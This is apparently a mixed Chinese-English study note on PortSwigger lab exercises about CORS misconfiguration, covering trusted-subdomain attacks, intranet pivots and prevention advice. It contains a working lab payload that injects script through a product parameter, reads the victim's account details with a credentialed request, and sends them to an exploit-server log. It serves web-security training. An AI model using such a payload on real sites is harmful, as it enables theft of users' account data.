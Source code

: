 ## Breaking TLS with poorly configured CORS

假设一个严格使用HTTPS的应用程序也列出了一个使用普通HTTP的受信任子域。

在这种情况下，能够拦截受害者用户流量的攻击者可以利用CORS配置来破坏受害者与应用程序的交互

1. 受害者用户发出任何普通的HTTP请求。

2. 攻击者将重定向到：http://trusted-subdomain.vulnerable-website.com

3. 受害者的浏览器遵循重定向。

4. 攻击者拦截普通HTTP请求，并将包含CORS请求的假响应返回到：https://vulnerable-website.com

5. 受害者的浏览器会发出CORS请求，包括来源：http://trusted-subdomain.vulnerable-website.com

6. 应用程序允许该请求，因为这是一个白名单源。请求的敏感数据在响应中返回。

7. 攻击者的欺骗页面可以读取敏感数据并将其传输到攻击者控制的任何域。

```javascript
lab：
<script>
document.location="http://stock.ace41fb31e42884680cd1cbf0021006a.web-security-academy.net/?productId=1<script>var req = new XMLHttpRequest();req.onload = reqListener;req.open('get','https://ace41fb31e42884680cd1cbf0021006a.web-security-academy.net/accountDetails',true);req.withCredentials = true;req.send();function reqListener() {location='https://ace41faa1e6d884a80751c0e01fc0091.web-security-academy.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1"		
</script>
```

## Intranets and CORS without credentials

Most CORS attacks rely on the presence of the response header:

`Access-Control-Allow-Credentials: true`

内部网站的安全标准通常低于外部网站，使攻击者能够发现漏洞并获得进一步访问

```
lab:???
First we need to scan the local network for the endpoint
test xss 
get source of admin page
delete carlos
https://portswigger.net/web-security/cors/lab-internal-network-pivot-attack
```

# How to prevent CORS-based attacks

主要是因为配置错误

- 正确配置跨域请求

  如果web资源包含敏感信息，则应在`Access-Control-Allow-Origin`标头中正确指定来源。

- 仅允许受信任的站点

  避免使用 `Access-Control-Allow-Origin: null`

  内部文档和沙盒请求可以指定 `null` origin

- 避免在内部网络中使用通配符

  避免在内部网络中使用通配符。当内部浏览器可以访问不受信任的外部域时，仅依靠网络配置来保护内部资源是不够的。

- CORS不能替代服务器端安全策略

  CORS定义了浏览器行为，但永远不能替代敏感数据的服务器端保护——攻击者可以直接伪造来自任何可信来源的请求。因此，除了正确配置的COR之外，web服务器还应该继续对敏感数据应用保护，例如身份验证和会话管理。